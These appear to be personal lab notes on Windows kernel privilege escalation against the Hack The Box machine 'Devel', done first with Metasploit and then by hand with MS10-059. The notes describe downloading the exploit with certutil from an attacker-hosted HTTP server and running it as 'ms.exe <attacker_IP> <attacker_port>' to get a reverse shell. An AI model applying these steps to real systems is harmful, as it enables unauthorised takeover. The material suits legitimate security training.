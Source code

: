 
## Overview

![[image.BPHLW1.png]]
![[image.O2EHW1.png]]

- The reason we need "system info" is because there are specific kernel exploits depending on the Windows build.
- If we own the Kernel, we own the system - that's what we are trying to do.


## Escalation with Metasploit (Example - Devel HTB)

1. Background the meterpreter session2. Search and use the exploit you found by priv suggester
![[image.BPVLW1.png]]

2. Search and use the exploit you found by priv suggester
![[image.GMWMW1.png]]

3. Set the appropriate meterpreter session (and the other options)
![[image.T59QW1.png]]

4. Run and get another meterpreter session!
![[image.ILWHW1.png]]

5. Be root
![[image.1GM9V1.png]]


## Manual Kernel Exploitation (Devel - HTB)

1. Search for the specific kernel exploit in Google
- ms10-015 doesn't work because we don't have GUI access
- so keep working through them & researching each one
- Rest of example is with MS10-059 (chimichurri exploit)

2. Downloaded the .exe to attacking machine
![[image.59C9V1.png]]

3. Set up Python HTTP server on attacking machine to host the file for victim to download

4. Go to temp folder (likely have write access here)
![[image.ZQL8V1.png]]

5. Download the file with certutil command (similar to wgeton Linux)
![[image.MLLGW1.png]]

6. Run the command with proper syntax (ms.exe <attacker_IP> <attacker_port>)
![[image.PR0HW1.png]]

7. On attacking machine, open another shell with the correct
port
![[image.EEODW1.png]]

8. Become root!
![[image.TYR6V1.png]]